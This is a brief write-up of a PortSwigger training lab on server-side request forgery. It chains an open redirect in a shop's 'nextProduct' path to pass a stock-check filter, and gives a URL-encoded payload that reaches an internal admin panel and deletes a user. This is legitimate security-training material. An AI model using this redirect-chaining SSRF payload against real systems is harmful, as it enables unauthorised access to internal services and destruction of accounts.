 # SSRF with filter bypass via open redirection vulnerability

> **Vulnerability Type:** SSRF
> **Lab URL:** [SSRF Lab](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)

---

## Objective  
Change the stock check URL to access the admin interface at http://192.168.0.12:8080/admin and delete the user "carlos"

---

## Setup  
- **Tools Used:** Burp Suite  
- **Environment Details:** PortSwigger Lab  

---

## Methodology  

### 1. **Discovery**  
- **Initial Observations:**  
  - Clicked on a product, saw `resources/js/stockCheckPayload.js`, `resources/js/stockCheck.js`, and found the `stockAPI` parameter in the HTTP request when I pressed the check stock button.
- **Testing Approach:**  
  - Find a redirection (lab is an open redirection vulnerability), find `/product/nextProduct?currentProductId=1&path=/product?productId=2` notice the `stockApi` reads as `/product/stock/check?productId=1&storeId=1` unencoded.  
    Craft a payload to redirect the `stockApi` to the admin panel `%2fproduct%2fnextProduct%3fpath%3dhttp%3a%2f%2f192.168.0.12%3a8080%2fadmin`.  
    Find the delete carlos href `/delete?username=carlos`, delete carlos and complete the lab.

### 2. **Exploitation**  
- **Payload Used:**  
  ```SSRF
  %2fproduct%2fnextProduct%3fpath%3dhttp%3a%2f%2f192.168.0.12%3a8080%2fadmin%2fdelete%3fusername%3dcarlos
  ```
### 3. **Screenshot**
Admin panel HTTP request with the href to delete the user "carlos" highlighted.
![Screenshot 2025-03-05 142811](https://github.com/user-attachments/assets/40ae39d0-9b5f-48e2-903f-f64efdeb700f)
